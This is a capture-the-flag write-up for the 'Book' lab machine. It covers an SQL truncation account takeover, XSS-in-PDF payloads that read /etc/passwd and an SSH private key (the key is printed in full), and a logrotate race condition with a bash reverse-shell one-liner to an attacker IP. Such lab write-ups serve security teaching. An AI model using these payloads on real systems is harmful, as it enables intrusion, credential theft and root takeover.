

Book - Writeup
Introduction
Basic enumeration
First of all we are going to start with a simple nmap scan, that allows us to show all forwarded ports of the targeted machine. The -sC parameter is used to perform a scan using the default set of scripts. The -sV parameter is used to perform an automated version scan of the targeted machine. The -p- argument is used to perform a network scan of all available 65,535 TCP ports of that server. -oN is used to store the result of the scan in a locally saved file.
nmap -sC -sV -p- -oN full 10.10.10.176 -v
The scan shows, that only port 22 (SSH) and port 80 (Apache webserver), so we are going to enumerate the website that is running on the server.
# Nmap 7.80 scan initiated Fri Feb 5 14:02:31 2021 as: nmap -sC -sV -p- -oN full -v 10.10.10.176 Nmap scan report for 10.10.10.176 Host is up (0.14s latency). Not shown: 65533 closed ports PORT STATE SERVICE VERSION 22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) | ssh-hostkey: | 2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA) | 256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA) |_ 256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519) 80/tcp open http Apache httpd 2.4.29 ((Ubuntu)) | http-cookie-flags: | /: | PHPSESSID: |_ httponly flag not set | http-methods: |_ Supported Methods: GET HEAD POST OPTIONS |_http-server-header: Apache/2.4.29 (Ubuntu) |_http-title: LIBRARY - Read | Learn | Have Fun Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel Read data files from: /usr/bin/../share/nmap Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . # Nmap done at Fri Feb 5 14:05:19 2021 -- 1 IP address (1 host up) scanned in 168.08 seconds
The only interesting thing, that the dirbuster scan gives us is, that there is some kind of admin panel running on the webserver.
Let us take a closer look at the hosted website. If we enumerate port 80 we can find a login and registration form. First I tried to create a normal account. I was able to login to the website, but there was nothing really interesting to find.
Exploiting SQL truncation
After some research I found out, about a specific type of SQL injection called SQL truncation. I came to this conclusion because I found a character limit between 10 and 20 characters in the email input field. The function that is used for validation can be found in the source code of the registration form.
function validateForm() {
var x = document.forms["myForm"]["name"].value;
var y = document.forms["myForm"]["email"].value;
if (x == "") {
alert("Please fill name field. Should not be more than 10 characters");
return false;
}
if (y == "") {
alert("Please fill email field. Should not be more than 20 characters");
return false;
}
}
But what is SQL truncation? It allows an attacker to access another user account with his own password. This problem occurs when the user input value is not validating for its length. But how can we exploit this vulnerability now? When we enumerate the website as a default user we can find an admin email called "admin@book.htb". We will try to register with the admin email and add our credentials after the 20th character. If we do this we can register this account with our own password and access the admin account with our own password.
"admin@book.htb" are exactly 14 characters, we will inject another 6 empty characters to reach the limit of 20 characters. After the 6th empty character we will enter our own username. The request for the registration looks like the following. For the username I assumed that the name of the admin account was probably "admin" and I was right.
POST /index.php HTTP/1.1 Host: 10.10.10.176 User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 Accept-Encoding: gzip, deflate Referer: http://10.10.10.176/index.php Content-Type: application/x-www-form-urlencoded Content-Length: 52 Connection: close Cookie: PHPSESSID=run0731131dha4jg8kto357a11 Upgrade-Insecure-Requests: 1 name=admin&email=admin%40book.htb++++++busche&password=busche123
Exploiting XSS to get a shell
We can now login with the credentials admin@book.htb and the password "busche123". We can also successfully enter the /admin area now. We have the option to export specific PDF files here. I tried to upload a PHP webshell, but it was not working. I researched a little bit and found the following article: article. This website is probably vulnerable to some kind of XSS. I will first try to read the /etc/passwd file from the remote system. Therefore I will create a new book submission from the following URL: http://10.10.10.176/collections.php. The book title is where the magic happens. Here we will inject some javascript that prints the /etc/passwd into the created PDF file. As author I chose user admin and as file I uploaded an empty PDF file called xss.pdf. The book title parameter looks like the following. It was not working without pasting some random text in front of the <script> tag.
busche
<script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///etc/passwd");
x.send();
</script>As a result we can now download the collection PDF from the admin panel and find the following content. The contents of /etc/passwd will be displayed in our downloaded PDF.

Getting user flag
After we found out that this website is vulnerable to XSS, we can now think about getting a shell on the remote system. If you can remember the nmap scan, we found out that SSH was running on the server. We also have a userlist of all users of the targeted system, because we read /etc/passwd. Let us try to read some private SSH keys. User "reader" is the only user that seems interesting for us. We will use the same script, but we will change the path of the file to /home/reader/.ssh/id_rsa. The payload looks like the following.
busche
<script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///home/reader/.ssh/id_rsa");
x.send();
</script>If everything worked correctly we can now download the collection from collection.php again, it should display a private SSH key from the user "reader".
-----RSA PRIVATE KEY----- MIIEpQIBAAKCAQEA2JJQsccK6fE05OWbVGOuKZdf0FyicoUrrm821nHy G8m6UNZyRGj77eeYGe/7YIQYPATNLSOpQIue3knhDiEsfR99rMg7FRnV WxtCK0VlQUwxZ6953D16uxlRH8LXeI6BNAIjF0Z7zgkzRhTYJpKs6M80N ePV8RKoYVWuVRb4nFG1Es0bOj29lu64yWd/j3xWXHgpaJciHKxeNlr8x6N 7WaZQ4cjd+yzpOCJw9J91Vi33gv6+KCIzr+TEfzI82+hLW1UGx/13fh20cZ 75I5d5Holg7ME40BU06Eq0E3EOY6whCPlzndVwIDAQABAoIBAQCs+kh 3mxvPeKok6BSsvqJD7aw72FUbNSusbzRWwXjrP8ke/Pukg/OmDETXmtg McKIrDvq/gVEnNiE47ckXxVZqDVR7jvvjVhkQGRcXWQfgHThhPWHJI+3 tIGcAaz3dTODgDO04Qc33+U9WeowqpOaqg9rWn00vgzOIjDgeGnbzr9E jhPHFI7usIxmgX8Q2/nx3LSUNeZ2vHK5PMxiyJSQLiCbTBI/DurhMelbFX 7Qd2hMSr7qJVdfCQjkmE3x/L37YQEnQph6lcPzvVGOEGQzkuu4ljFkYz6s GZYD7sW5AoGBAO89fhOZC8osdYwOAISAk1vjmW9ZSPLYsmTmk3A7jO E2vk2W5a9R6N5bEb9yvSt378snyrZGWpaIOWJADu+9xpZScZZ9imHHZ ciqzwDZfSg5QLoe8CV/7sL2nKBRYBQVL6D8SBRPTIR+J/wHRtKt5PkxjAo SRM/Abh5xub6zThrkIRnFgcYEf5CmVJX9IgPnwgWPHGcwUjKEH5pwpei skGl3dh4M/2Tgl/gYPwUKI4ori5OMRWykGANbLAt+Diz9mA3FQIi26ickg o5GVjWTOlfEj74k8hC6GjzWHna0pSlBEiAEF6Xt9AoGAZCDjdIZYhdxHsj9 Hc5LOGww+NqzB0HtsUprN6YpJ7AR6+YlEcItMl/FOW2AFbkzoNbHT9G hBhBp1ZeeShvWobqjKUxQmbp2W975wKR4MdsihUlpInwf4S2k8J+fVHJl Pb9n+p0hvtZ9sSA4so/DACsCgYEA1y1ERO6X9mZ8XTQ7IUwfIBFnzqZ27 sMRwcd3TudpHTgLxVa91076cqw8AN78nyPTuDHVwMN+qisOYyfcdwQ tdBBP0Uv2dafya7bfuRG+USH/QTj3wVen2sxoox/hSxM2iyqv1iJ2LZXndV 5bBLnzECgYEAlLiYGzP92qdmlKLLWS7nPM0YzhbN9q0qC3ztk/+1v8pjj1 y1K/LbqIV3C01ruxVBOV7ivUYrRkxR/u5QbS3WxOnK0FYjlS7UUAc4r0zM nkeaf9obYKsrORVuKKVNFzrWeXcVx+oG3NisSABIprhDfKUSbHzLIR4= -----END RSA PRIVATE KEY-----
We can use this private key to login with user reader over SSH.
root@kali:~/htb/Book# ssh -i reader_rsa reader@10.10.10.176
load pubkey "reader_rsa": invalid format
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 5.4.1-050401-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/advantage
System information as of Fri Feb 5 15:29:10 UTC 2021
System load: 0.0 Processes: 151
Usage of /: 27.0% of 19.56GB Users logged in: 1
Memory usage: 26% IP address for ens33: 10.10.10.176
Swap usage: 0%
* Canonical Livepatch is available for installation.
- Reduce system reboots and improve kernel security. Activate at:
https://ubuntu.com/livepatch
114 packages can be updated.
0 updates are security updates.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
Last login: Wed Jan 29 13:03:06 2020 from 10.10.14.3
reader@book:~$We can now obtain the user flag.
reader@book:~$ cat user.txt 2e******************************
Exploiting logrotate to get root flag
We are now user reader on the targeted system. After some enumeration I discovered that the service logrotate is running with root permissions, seems pretty interesting for us. This information can also be found with a simple linpeas.sh and pspy scan. Logrotate is an automated tool that rotates, compresses and deletes log files on a system. We can generate a malicious log file that allows us to get a reverse shell on the targeted system as user root. Therefore we need to abuse a race condition.
First I created a payload, that looked like the following.
reader@book:~$ cat payload if [ `id -u` -eq 0 ]; then (/bin/bash -i >& /dev/tcp/10.10.14.XX/1234 0>&1 &); fi
Now I needed to download the source of logrotate, compile it and upload it to the remote system. The source code can be found on the following Github repository: Github
Now we need to execute logrotten to abuse the race condition.
./logrotten.c payload /home/reader/backups/access.log
To trigger the race condition we need to make a change to our logfile.
echo "test" >> /home/reader/backup/access.log
Before triggering the race condition do not forget to start a netcat listener to successfully get a reverse shell.
root@book:~$ whoami root
We can now obtain the root flag.
root@book:~$ cat root.txt cat root.txt 84******************************